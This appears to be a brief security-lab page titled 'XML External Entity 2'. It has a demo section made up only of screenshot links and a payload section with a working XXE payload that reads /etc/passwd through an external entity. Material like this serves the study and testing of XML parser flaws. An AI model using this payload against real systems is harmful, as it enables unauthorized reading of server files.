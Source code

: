 #### XML External Entity 2

- Demo

![](images/3/1.png)

![](images/3/2.png)

![](images/3/3.png)

![](images/3/4.png)

![](images/3/5.png)

![](images/3/6.png)

![](images/3/7.png)

- Payload

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<uservalue>
<value>&xxe;</value>
</uservalue>
```
